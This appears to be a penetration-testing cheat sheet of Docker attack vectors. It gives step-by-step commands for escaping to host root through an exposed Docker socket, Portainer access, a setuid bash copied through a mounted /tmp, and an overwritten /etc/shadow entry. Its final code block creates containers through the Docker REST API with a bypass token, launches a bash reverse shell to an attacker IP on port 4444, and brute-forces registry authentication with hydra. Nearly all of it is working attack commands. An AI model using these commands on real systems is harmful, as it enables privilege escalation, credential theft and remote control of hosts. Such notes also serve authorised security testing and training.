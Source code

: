 # Docker-Related Attack Vectors

### Docker Socket

* If you have user privileges in a host machine check these:&#x20;
  * Find `netstat -tunape` docker socket in localhost
  * export it to env `export DOCKER_HOST="tcp://localhost:2222"`
  * Look docker images in host machine and run it with connecting host
    * &#x20;`docker run -it -v /:/host ubuntu:20.04 bash`
    * `cd /host/`
    * `chroot ./ bash`
    * `find / -name password`



### Portainer Web UI access

* If you have portainer access, (via leaked creds or bruteforce)
  * Create privileged docker via portainer web UI&#x20;
  * Later connect there via from web ui of portainer:
    * `mount /dev/sda /mnt`
    * `cd /mnt`
    * `chroot ./ bash`
    * Then find credentials in root mounted&#x20;

### Use Case (Blocked by privileged mode but run in seccomp)

* You are user in victim machine and want to get root and blocked by docker firewall when you run `docker run -d --privileged ubuntu:latest`

Then you can run&#x20;

* `docker run -d --security-opt "seccomp=unconfined" modified-ubuntu`
* With that way we can start a container with seccomp profile set to unconfined.
*   `docker exec -it --privileged {container_id} bash`

    * `Check it with capsh --print`

    Then use [cap\_sys\_module](../container-breakouts/#cap\_sys\_module-capability) breakout technique to breakout the container.&#x20;

### Use Case (Blocked by Docker Firewall Api )

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

`cp /bin/bash /tmp/`

`docker run -it -v /tmp:/host ubuntu:18.04 bash`

in docker

`chown root:root /host/bash`

`chmod u+s /host/bash`

then `exit`

in host machine it self run&#x20;

`/tmp/bash -p`

your effective uid is 0.&#x20;

### Use Case (Blocked by Docker Firewall Api - 2 )

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

`test it with /tmp, /etc,`&#x20;

`docker run -it -v /etc:/host ubuntu:18.04 bash`

Check /host directory

then create password entry with openssl&#x20;

`openssl passwd -1 -salt abc abc`

take that string and put in /host/shadow puth that string in root place.&#x20;

then exit from docker and in host machine be root with the password that you have written in openssl command.



### Use Case (Blocked by Docker Firewall Api - 3 \[Using Docker API])

In that case you are user in host machine and by using docker trying to get root user.&#x20;

Check that command&#x20;

`docker run -it --privileged ubuntu:18.04 bash`&#x20;

If it is blocked by Docker Firewall then&#x20;

* When docker client is used, docker client interacts with the docker socket by using the HTTP API, the JSON data sent by docker client follows the JSON format mentioned on the docker API references. Identify the API version used by the docker client.
* [https://docs.docker.com/engine/api/v1.40/#tag/Container/operation/ContainerCreate](https://docs.docker.com/engine/api/v1.40/#tag/Container/operation/ContainerCreate)

So by sending request to docker socket we can get in contact with docker.&#x20;

Send that request with curl&#x20;

`curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create`

and it will create us a privileged container via API request

check it via

`docker ps -a`

start the container `docker start container_id`

and&#x20;

run `docker exec -it container_id bash`

now check host directory and you are in host machine.&#x20;



### Some Docker Rest API Commands that can be used

```
#Interact with the docker socket using curl and send a request to create a container.
#Specify “CAP_SYS_MODULE” value in the capability attribute.


curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d
'{"Image": "modified-ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}'
http:/v1.40/containers/create

# Don't forget to check docker port 2375 and later add that 
export DOCKER_HOST="tcp://localhost:2375"

# if you find bypass-token 
# check images

curl -X GET -H "Content-Type: application/json" -H "Bypass-Token:
Token" http://Remote_IP:2375/images/json -s | jq

# Create a container from image and mount the root file in /host directory

curl -s -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" -d '{"Image":
"wolfcms","Env":["Bypass-Token=0a46f8ef7ba0611ccb16a0aeeac618a1"],"Binds":["/:/host"]}'
http://Remote_IP:2375/containers/create | jq

#Start that container

curl -X POST -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1"
http://Remote_IP:2375/containers/0bb824614788cced1fa17ed4539477bca425b62d9d52d91
8ff3c423a3f305d56/start

# Running containers

curl -X GET -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" http://Remote_IP:2375/containers/json -s | jq

# Reverse shell bash send with curl

curl -s -H "Content-Type: application/json" -H "Bypass-Token:
0a46f8ef7ba0611ccb16a0aeeac618a1" -d '{"AttachStdin":
false,"AttachStdout":false,"AttachStderr":false,"Cmd":["bash","-c","bash -i >&
/dev/tcp/Local_IP/4444 0>&1"],"Detach":true}'
http://Remote_IP:2375/containers/0bb824614788cced1fa17ed4539477bca425b62d9d52d91
8ff3c423a3f305d56/exec | jq


#
/v2/_catalog
/v2/alpine/tags/list
/v2/alpine/manifests/latest  
curl remote_ip:port/v2/alpine/blobs/sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935 --output 1.tar

#if there is basic auth on the endpint 
hydra -l {username} -P wordlist REMOTE-IP -s 5000 https-get

```



